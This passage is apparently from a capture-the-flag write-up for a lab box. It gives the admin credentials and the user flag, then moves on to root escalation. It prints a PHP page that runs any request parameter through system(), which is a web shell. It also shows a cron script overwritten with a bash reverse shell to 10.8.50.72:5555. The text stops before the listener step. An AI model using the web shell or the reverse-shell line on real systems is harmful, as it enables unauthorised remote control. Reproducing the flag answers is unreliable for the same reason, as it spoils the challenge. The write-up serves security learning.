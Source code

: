 The user to access the `admin` part of the website is `itsmeadmin` and the associated password is `jesie`

## #3 - What is the user flag?

Still in `/var/www/html/admin/` we get the user flag:

~~~
$ cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
~~~

## #4 - What is the root flag?

Let's upgrade our shell:

~~~
$ SHELL=/bin/bash script -q /dev/null
www-data@dmv:/$ 
~~~

First thing was to analyze the sources in `/var/www/html`. In the `admin` directory, the `index.php` reveals a link to execute a command? Oh.... seriously? Was it actually the expected way of getting our initial shell instead of hacking the web service? I don't know as it would also require to have the `itsmeadmin` account and password. Anyway, very interesting point, the default command (`rm -rf /var/www/html/tmp/downloads`) removes the directory `downloads` in `/tmp`

```php
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/admin/index.php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>
<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
```

Now, in `tmp`, there is a `clean.sh` script that does the same thing. Why? Probably because it's scheduled with a cronjob.

~~~
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/tmp/clean.sh
rm -rf downloads
~~~

I created a download `downloads` directory inside `tmp` and after 30 seconds, it disappeared. Our assessment is confirmed. As we have write access to the script, let's replace the content with a reverse shell on another port (say `5555` for example).

~~~
www-data@dmv:/var/www/html/tmp$ echo "bash -i >& /dev/tcp/10.8.50.72/5555 0>&1" > clean.sh
~~~

Now, open a listener on port 5555 on your machine:
